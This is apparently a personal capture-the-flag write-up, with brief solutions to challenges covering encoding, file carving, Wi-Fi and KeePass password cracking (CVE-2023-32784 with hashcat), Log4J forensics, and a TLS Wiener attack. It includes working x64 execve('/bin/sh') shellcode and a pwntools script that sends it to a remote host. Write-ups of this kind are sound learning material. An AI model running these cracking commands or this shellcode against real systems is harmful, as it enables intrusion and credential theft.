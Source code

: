 # start-enc

Decode the given text from binary, then base64, then html special char codes, then hex and you'll get the flag.

# easy-hide

Use bulk_extractor to obtain the embedded files. We'll get a broken jpg, use any online tool to repair it and get the flag.

# fake-add

Easy operations. Open the binary in Ghidra/IDA, and create a small Python script that'll recreate all operations present there.

# wifibasic

We can use aircrack-ng with the .cap file to break the target ssid using rockyou.txt wordlist.

# safe-password

For this, we need to check haveibeenpwned for the given passwords. You can automate it, or try it manually with the last 50 passwords (as the first 100 passwords seem secure; if the last 50 didn't work you could jump to them, but they'll work).

# password-manager-is-a-must

Unfortunately, debugging that dump doesn't yield anything. 

Doing more research, I've ended up here: `https://www.linkedin.com/pulse/steal-keepass-2x-254-master-password-chance-johnson/` => `https://github.com/vdohney/keepass-password-dumper`, which abuses `CVE-2023-32784`.
However, the program above fails to get all characters of the password, but we can use hashcat for that.

```Bash
keepass2john Database.kdbx > keepasshash
cut -d ":" keepasshash -f 2 > hash_only
hashcat -m 13400 hash_only -a 3 -1 ?l ?l<PASSWORD FROM THE TOOL> -O # (tries lowercase letters, it can be switched for others)
# if not, try with more letters
hashcat -m 13400 hash_only -a 3 -1 ?l?l ?l?l<PASSWORD FROM THE TOOL> -O
```

# secrets-of-winter

Last 3 words of the flag are obtained by decoding base64 tags obtained from exiftool.
First 3 words are obtained by carefully analyzing the image (left side building, right below where the roof starts, near the corner of the building).

# wifiland

Break Wi-Fi password for wifiland just as in the wifibasic challenge (`aircrack-ng PCAP_FILE -w WORDLIST`), then use that password in wireshark to decrypt packets (`Edit->Preferences->Protocols->802.11->wpa-pwd = PWD:SSID`).

# intro-to-assembly

Challenge requires us to build some shellcode, with some restraints however. We cannot use bytes 0x31 (part of XOR opcode), 0x0f and 0x05 (together they form the syscall opcode). Also, we can use a maximum of 24 bytes.
The challenge uses `strlen` to determine the size of the input, and it'll check the input up to that value. However, as `strlen` stops at 0x00, we can trick it by having some 0x00 bytes early on, thus allowing us to use the restricted characters.

Use the linux x64 syscall table to see how the parameters are for our syscalls (`execve`), and prepare a shellcode that'll do just do, effectively calling `execve("/bin/sh", NULL, NULL);`.
Inspiration: `https://pentesterslife.blog/2018/01/13/polymorphic-and-smaller-versions-of-three-shell-storms-x64-shellcodes-including-the-smallest-execve-bin-sh/`

```AS
global _start
section .text
_start:
	push 59 ; execve syscall
	pop rax
	cdq ; sign extend
	push rdx
	mov rbx, "/bin/sh"
	push rbx
	push rsp
	pop rdi ; addr for "/bin/sh"
	push rdx
	push rdi
	push rsp
	pop rsi
	syscall
```

Compile that shellcode using `nasm -felf64 shellcode.asm && ld -melf_x86_64 shellcode.o -o shellcode`, get the shellcode (`xxd shellcode`) and use pwntools to send it to the target binary.

```Python
from pwn import *
payload = b"\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
#p = process("./intro-to-assembly")
#gdb.attach(p)
p = remote("34.107.38.170", 30745)
p.sendline(payload)
p.interactive()
```

# something-happened

For observing the compromised IP and attack, go towards the end of the data in the `something-happened*` index, and see the attack use (parameters containing jndi://ldap -> Log4J).
For the user-agent, it is Mozilla, dw abt that, I had to try all of them since the ones used in the attack didn't work and I was going insane.

# traffic-e

Obtain the server's RSA key from the TLS handshake.

Use the previously obtained key in RsaCtfTool -> RSA Wiener attack is successfull in getting the private key.

Use the newly obtained private key in wireshark (`Edit->Preferences->Protocols->TLS->RSA Keys->Edit->New - add servers ip and port, protocol would be http and then add the private key file`).
Then, look at the `Application Data` packets in the PCAP and go to the `Decrypted TLS` tab and get the flag.


# small tip for future me

Use `ffuf` instead of `wfuzz` for bruteforcing, way faster and less buggier!!
Also, fuzz the fkin websites when doing ANY web challs...
